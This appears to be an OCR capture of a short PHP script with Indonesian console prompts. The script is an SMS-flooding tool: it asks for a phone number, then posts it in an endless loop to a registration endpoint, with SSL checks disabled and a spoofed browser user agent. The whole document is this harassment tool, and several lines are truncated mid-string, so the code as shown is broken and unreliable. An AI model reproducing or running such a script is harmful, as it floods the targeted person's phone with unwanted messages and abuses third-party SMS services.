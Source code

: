 <?php
$banner = "======================================>
function sms($target) {
  $ch = curl_init();
  curl_setopt($ch, CURLOPT_URL, "https://registra>
  curl_setopt($ch, CURLOPT_POST, true);
  curl_setopt($ch, CURLOPT_POSTFIELDS, "msisdn=$t>
  curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
  curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
  curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
  curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
  curl_setopt($ch, CURLOPT_USERAGENT, "Mozilla/5.>
  $result = curl_exec($ch);
  curl_close($ch);
  $json = json_decode($result, true);
  sleep(0.3);
  echo "\nBerhasil", $json["success"], "Mengirim >
}
echo $banner;
echo "masukan nomor:";
$nomor = trim(fgets(STDIN));
while (true) {
  $execute = sms($nomor);
  print $execute;
}
?>
